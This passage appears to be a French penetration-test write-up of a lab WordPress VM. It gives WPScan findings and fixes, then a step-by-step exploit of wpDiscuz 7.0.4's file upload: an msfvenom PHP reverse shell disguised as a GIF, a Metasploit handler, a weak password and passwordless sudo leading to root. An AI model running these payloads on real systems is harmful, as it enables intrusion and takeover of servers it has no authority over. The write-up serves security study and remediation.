 | [!] Title: WP < 6.0.3 - SQLi in WP_Date_Query
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/1da03338-557f-4cb6-9a65-3379df4cce47
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/d815d2e8b2a7c2be6694b49276ba3eee5166c21f
 |
 | [!] Title: WP < 6.0.3 - Stored XSS via RSS Widget
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/58d131f5-f376-4679-b604-2b888de71c5b
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/929cf3cb9580636f1ae3fe944b8faf8cca420492
 |
 | [!] Title: WP < 6.0.3 - Data Exposure via REST Terms/Tags Endpoint
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/b27a8711-a0c0-4996-bd6a-01734702913e
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/ebaac57a9ac0174485c65de3d32ea56de2330d8e
 |
 | [!] Title: WP < 6.0.3 - Multiple Stored XSS via Gutenberg
 |     Fixed in: 4.9.22
 |     References:
 |      - https://wpscan.com/vulnerability/f513c8f6-2e1c-45ae-8a58-36b6518e2aa9
 |      - https://wordpress.org/news/2022/10/wordpress-6-0-3-security-release/
 |      - https://github.com/WordPress/gutenberg/pull/45045/files
 |
 | [!] Title: WP <= 6.2 - Unauthenticated Blind SSRF via DNS Rebinding
 |     References:
 |      - https://wpscan.com/vulnerability/c8814e6e-78b3-4f63-a1d3-6906a84c1f11
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-3590
 |      - https://blog.sonarsource.com/wordpress-core-unauthenticated-blind-ssrf/
 |
 | [!] Title: WP < 6.2.1 - Directory Traversal via Translation Files
 |     Fixed in: 4.9.23
 |     References:
 |      - https://wpscan.com/vulnerability/2999613a-b8c8-4ec0-9164-5dfe63adf6e6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-2745
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |
 | [!] Title: WP < 6.2.1 - Thumbnail Image Update via CSRF
 |     Fixed in: 4.9.23
 |     References:
 |      - https://wpscan.com/vulnerability/a03d744a-9839-4167-a356-3e7da0f1d532
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |
 | [!] Title: WP < 6.2.1 - Contributor+ Stored XSS via Open Embed Auto Discovery
 |     Fixed in: 4.9.23
 |     References:
 |      - https://wpscan.com/vulnerability/3b574451-2852-4789-bc19-d5cc39948db5
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |
 | [!] Title: WP < 6.2.2 - Shortcode Execution in User Generated Data
 |     Fixed in: 4.9.23
 |     References:
 |      - https://wpscan.com/vulnerability/ef289d46-ea83-4fa5-b003-0352c690fd89
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-2-security-release/
 |
 | [!] Title: WP < 6.2.1 - Contributor+ Content Injection
 |     Fixed in: 4.9.23
 |     References:
 |      - https://wpscan.com/vulnerability/1527ebdb-18bc-4f9d-9c20-8d729a628670
 |      - https://wordpress.org/news/2023/05/wordpress-6-2-1-maintenance-security-release/
 |
 | [!] Title: WP < 6.3.2 - Denial of Service via Cache Poisoning
 |     Fixed in: 4.9.24
 |     References:
 |      - https://wpscan.com/vulnerability/6d80e09d-34d5-4fda-81cb-e703d0e56e4f
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WP < 6.3.2 - Subscriber+ Arbitrary Shortcode Execution
 |     Fixed in: 4.9.24
 |     References:
 |      - https://wpscan.com/vulnerability/3615aea0-90aa-4f9a-9792-078a90af7f59
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WP < 6.3.2 - Contributor+ Comment Disclosure
 |     Fixed in: 4.9.24
 |     References:
 |      - https://wpscan.com/vulnerability/d35b2a3d-9b41-4b4f-8e87-1b8ccb370b9f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-39999
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WP < 6.3.2 - Unauthenticated Post Author Email Disclosure
 |     Fixed in: 4.9.24
 |     References:
 |      - https://wpscan.com/vulnerability/19380917-4c27-4095-abf1-eba6f913b441
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-5561
 |      - https://wpscan.com/blog/email-leak-oracle-vulnerability-addressed-in-wordpress-6-3-2/
 |      - https://wordpress.org/news/2023/10/wordpress-6-3-2-maintenance-and-security-release/
 |
 | [!] Title: WordPress < 6.4.3 - Deserialization of Untrusted Data
 |     Fixed in: 4.9.25
 |     References:
 |      - https://wpscan.com/vulnerability/5e9804e5-bbd4-4836-a5f0-b4388cc39225
 |      - https://wordpress.org/news/2024/01/wordpress-6-4-3-maintenance-and-security-release/
 |
 | [!] Title: WordPress < 6.4.3 - Admin+ PHP File Upload
 |     Fixed in: 4.9.25
 |     References:
 |      - https://wpscan.com/vulnerability/a8e12fbe-c70b-4078-9015-cf57a05bdd4a
 |      - https://wordpress.org/news/2024/01/wordpress-6-4-3-maintenance-and-security-release/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in HTML API
 |     Fixed in: 4.9.26
 |     References:
 |      - https://wpscan.com/vulnerability/2c63f136-4c1f-4093-9a8c-5e51f19eae28
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Stored XSS in Template-Part Block
 |     Fixed in: 4.9.26
 |     References:
 |      - https://wpscan.com/vulnerability/7c448f6d-4531-4757-bff0-be9e3220bbbb
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/
 |
 | [!] Title: WordPress < 6.5.5 - Contributor+ Path Traversal in Template-Part Block
 |     Fixed in: 4.9.26
 |     References:
 |      - https://wpscan.com/vulnerability/36232787-754a-4234-83d6-6ded5e80251c
 |      - https://wordpress.org/news/2024/06/wordpress-6-5-5/

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:02:14 <==========================================================================================================================> (108842 / 108842) 100.00% Time: 00:02:14
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://192.168.0.75/assets/fonts/blog/wp-content/plugins/akismet/
 | Last Updated: 2024-11-19T02:02:00.000Z
 | Readme: http://192.168.0.75/assets/fonts/blog/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.3.5
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.0.75/assets/fonts/blog/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.0.8 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.0.75/assets/fonts/blog/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.0.75/assets/fonts/blog/wp-content/plugins/akismet/readme.txt

[+] wpdiscuz
 | Location: http://192.168.0.75/assets/fonts/blog/wp-content/plugins/wpdiscuz/
 | Last Updated: 2024-10-14T17:02:00.000Z
 | Readme: http://192.168.0.75/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt
 | [!] The version is out of date, the latest version is 7.6.27
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.0.75/assets/fonts/blog/wp-content/plugins/wpdiscuz/, status: 200
 |
 | [!] 19 vulnerabilities identified:
 |
 | [!] Title: Comments - wpDiscuz 7.0.0 - 7.0.4 - Unauthenticated Arbitrary File Upload
 |     Fixed in: 7.0.5
 |     References:
 |      - https://wpscan.com/vulnerability/92ae2765-dac8-49dc-a361-99c799573e61
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24186
 |      - https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/
 |      - https://plugins.trac.wordpress.org/changeset/2345429/wpdiscuz
 |
 | [!] Title: Comments - wpDiscuz < 7.3.2 - Admin+ Stored Cross-Site Scripting
 |     Fixed in: 7.3.2
 |     References:
 |      - https://wpscan.com/vulnerability/f51a350c-c46d-4d52-b787-762283625d0b
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24737
 |
 | [!] Title: wpDiscuz < 7.3.4 - Arbitrary Comment Addition/Edition/Deletion via CSRF
 |     Fixed in: 7.3.4
 |     References:
 |      - https://wpscan.com/vulnerability/2746101e-e993-42b9-bd6f-dfd5544fa3fe
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24806
 |      - https://www.youtube.com/watch?v=CL7Bttu2W-o
 |
 | [!] Title: wpDiscuz < 7.3.12 - Sensitive Information Disclosure
 |     Fixed in: 7.3.12
 |     References:
 |      - https://wpscan.com/vulnerability/027e6ef8-39d8-4fa9-957f-f53ee7175c0a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23984
 |
 | [!] Title: wpDiscuz < 7.6.4 - Unauthenticated Data Modification via IDOR
 |     Fixed in: 7.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/d7de195a-a932-43dd-bbb4-784a19324b04
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3869
 |
 | [!] Title: wpDiscuz < 7.6.4 - Post Rating Increase/Decrease iva IDOR
 |     Fixed in: 7.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/051ab8b8-210e-48ac-82e7-7c4a0aa2ecd5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3998
 |
 | [!] Title: wpDiscuz < 7.6.12 - Unauthenticated Stored XSS
 |     Fixed in: 7.6.12
 |     References:
 |      - https://wpscan.com/vulnerability/f061ffa4-25f2-4ad5-9edb-6cb2c7b678d1
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47185
 |
 | [!] Title: wpDiscuz < 7.6.6 - Unauthenticated SQL Injection
 |     Fixed in: 7.6.6
 |     Reference: https://wpscan.com/vulnerability/ebb5ed9a-4fb2-4d64-a8f2-6957878a4599
 |
 | [!] Title: wpDiscuz < 7.6.4 - Author+ IDOR
 |     Fixed in: 7.6.4
 |     References:
 |      - https://wpscan.com/vulnerability/d5e677ef-786f-4921-97d9-cbf0c2e21df9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46311
 |
 | [!] Title: wpDiscuz < 7.6.11 - Unauthenticated Content Injection
 |     Fixed in: 7.6.11
 |     References:
 |      - https://wpscan.com/vulnerability/8c8cabee-285a-408f-9449-7bb545c07cdc
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46310
 |
 | [!] Title: wpDiscuz < 7.6.11 - Insufficient Authorization to Comment Submission on Deleted Posts
 |     Fixed in: 7.6.11
 |     References:
 |      - https://wpscan.com/vulnerability/874679f2-bf44-4c11-bc3b-69ae5ac59ced
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46309
 |
 | [!] Title: wpDiscuz < 7.6.12 - Missing Authorization in AJAX Actions
 |     Fixed in: 7.6.12
 |     References:
 |      - https://wpscan.com/vulnerability/2e121d4f-7fdf-428c-8251-a586cbd31a96
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45760
 |
 | [!] Title: wpDiscuz < 7.6.12 - Cross-Site Request Forgery
 |     Fixed in: 7.6.12
 |     References:
 |      - https://wpscan.com/vulnerability/f8dfcc13-187c-4a83-a87e-761c0db4b6d9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47775
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/53af9dfd-eb2d-4f6f-b02f-daf790b95f1f
 |
 | [!] Title: wpDiscuz < 7.6.6 - Unauthenticated SQL Injection
 |     Fixed in: 7.6.6
 |     References:
 |      - https://wpscan.com/vulnerability/a2fec175-40f6-4a80-84ed-5b88251584de
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/9dd1e52c-83b7-4b3e-a791-a2c0ccd856bc
 |
 | [!] Title: wpDiscuz < 7.6.13 - Admin+ Stored XSS
 |     Fixed in: 7.6.13
 |     References:
 |      - https://wpscan.com/vulnerability/79aed6a7-a6e2-4429-8f98-ccac6b59fb4d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-51691
 |      - https://patchstack.com/database/vulnerability/wpdiscuz/wordpress-wpdiscuz-plugin-7-6-12-cross-site-scripting-xss-vulnerability
 |
 | [!] Title: wpDiscuz < 7.6.16 - Authenticated (Author+) Stored Cross-Site Scripting via Uploaded Image Alternative Text
 |     Fixed in: 7.6.16
 |     References:
 |      - https://wpscan.com/vulnerability/f3a337ae-54e5-41ca-a0d9-60745b568469
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-2477
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/3eddc03d-ecff-4b50-a574-7b6b62e53af0
 |
 | [!] Title: Comments – wpDiscuz < 7.6.19 - Authenticated (Contributor+) Stored Cross-Site Scripting
 |     Fixed in: 7.6.19
 |     References:
 |      - https://wpscan.com/vulnerability/607da7a6-c2f2-4a9e-9471-8e0d29f355d9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-35681
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/005bf2f0-892f-4248-afe3-263ae3d2ac54
 |
 | [!] Title: Comments – wpDiscuz < 7.6.22 - Unauthenticated HTML Injection
 |     Fixed in: 7.6.22
 |     References:
 |      - https://wpscan.com/vulnerability/66542876-77ae-442d-acde-2aac642f1d36
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-6704
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/fa3501a4-7975-4f90-8037-f8a06c293c07
 |
 | [!] Title: Comments – wpDiscuz < 7.6.25 - Authentication Bypass
 |     Fixed in: 7.6.25
 |     References:
 |      - https://wpscan.com/vulnerability/b95d9907-2c2d-4187-b902-d67262ea6b6d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9488
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/b71706a7-e101-4d50-a2da-1aeeaf07cf4b
 |
 | Version: 7.0.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.0.75/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22

[+] Finished: Thu Jan 30 10:53:18 2025
[+] Requests Done: 108877
[+] Cached Requests: 12
[+] Data Sent: 32.556 MB
[+] Data Received: 14.713 MB
[+] Memory used: 538.754 MB
[+] Elapsed time: 00:02:30
```

## Vulnérabilités du serveur web

### 🌐 Serveur Web (Apache 2.4.18)

- **XML-RPC activé**
  - **Exploitation :** Permet des attaques DDoS, des fuites d'informations et des attaques par force brute.
  - **Solution :** Désactiver XML-RPC si non nécessaire en ajoutant `xmlrpc_enabled: 0` dans `wp-config.php`.

### 🛑 WordPress 4.9.8 (Version obsolète)

- **63 vulnérabilités identifiées**
  - **Exploitation :** Possibilité de suppression de fichiers, escalade de privilèges, injection SQL, XSS.
  - **Solution :** Mettre à jour vers la dernière version stable de WordPress.

### 📂 Upload Directory Listing Activé

- **Exploitation :** Accès non autorisé à des fichiers sensibles.
- **Solution :** Ajouter un fichier `.htaccess` avec `Options -Indexes` dans le répertoire `uploads/`.

### 🔄 WP-Cron activé

- **Exploitation :** Peut être abusé pour exécuter des requêtes massives.
- **Solution :** Désactiver WP-Cron et utiliser un cron job serveur `define('DISABLE_WP_CRON', true);`.

### 🔌 Plugins Vulnérables

#### **Akismet 4.0.8**

- **Exploitation :** Peut être sujet à des injections SQL et XSS.
- **Solution :** Mettre à jour le plugin.

#### **wpDiscuz 7.0.4**

- **19 vulnérabilités identifiées**, incluant des uploads de fichiers arbitraires et des injections SQL.
- **Solution :** Mettre à jour vers la dernière version du plugin.

On va exploiter la faille sur le plugin `wpdiscuz` qui est une faille de type `Unauthenticated Arbitrary File Upload` et qui nous permet d'upload un script php reverse shell en tant qu'image.

En premier, on va générer notre payload avec `msfvenom` :

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.0.41 LPORT=443 -f raw > reverse.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1112 bytes
```

Si l'on essayait de poster le script en l'état, il serait automatiquement bloqué car son type MIME n'est pas autorisé. On va donc le modifier pour qu'il soit accepté en ajoutant `GIF89a;` au début du fichier :

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nano reverse.php

[...]

GIF89a;
/*<?php /**/ error_reporting(0); $ip = '192.168.0.41'; $port = 443;

[...]
```

Avant de poster notre payload préparé, on va démarrer un handler pour écouter les connexions entrantes :

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.0.41
LHOST => 192.168.0.41
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.0.41:443
```

Maintenant, on vient uploader notre image pour déclencher l'exécution du reverse shell :


On reçoit une connexion sur notre handler :

```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.0.41:443
[*] Sending stage (40004 bytes) to 192.168.0.75
[*] Meterpreter session 1 opened (192.168.0.41:443 -> 192.168.0.75:37134) at 2025-01-30 12:11:21 +0100

meterpreter >
```

On peut maintenant venir récupérer un bash classique en utilisant python :

```bash
meterpreter > shell
Process 3912 created.
Channel 0 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu-xenial:/$
```

On va maintenant lister les utilisateurs présents dans le fichier `/etc/passwd` et qui disposent d'un shell :

```bash
www-data@ubuntu-xenial:/$ cat /etc/passwd | grep bash"
root:x:0:0:root:/root:/bin/bash
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
james:x:1002:1002:James M Brunner,,,:/home/james:/bin/bash
```

On tente un bruteforce sur les comptes `vagrant`, `ubuntu` et `james` avec le mot de passe étant le nom de l'utilisateur.  
On constate que le mot de passe de `vagrant` est `vagrant`.

```bash
www-data@ubuntu-xenial:/$ su vagrant
Password: vagrant
vagrant@ubuntu-xenial:/$
```

On vient maintenant vérifier les permissions de l'utilisateur `vagrant` :

```bash
vagrant@ubuntu-xenial:/$ sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
```

L'utilisateur `vagrant` peut exécuter n'importe quelle commande en tant que root sans mot de passe.  
On va donc passer à l'utilisateur `root` sans que cela ne nécessite de mot de passe :

```bash
vagrant@ubuntu-xenial:/$ sudo su
root@ubuntu-xenial:/#
```

## Conclusion

Au cours de cette analyse, nous avons détecté plusieurs vulnérabilités présentes sur la machine et le serveur web.  
Nous avons exploré diverses méthodes d'exploitation pour identifier les failles critiques et démontrer leur impact potentiel.  
Ensuite, nous avons énuméré chaque vulnérabilité détectée et proposé des solutions concrètes pour sécuriser le système.  
La mise en place de correctifs et de bonnes pratiques de cybersécurité est essentielle pour protéger la machine contre toute tentative d’attaque future.
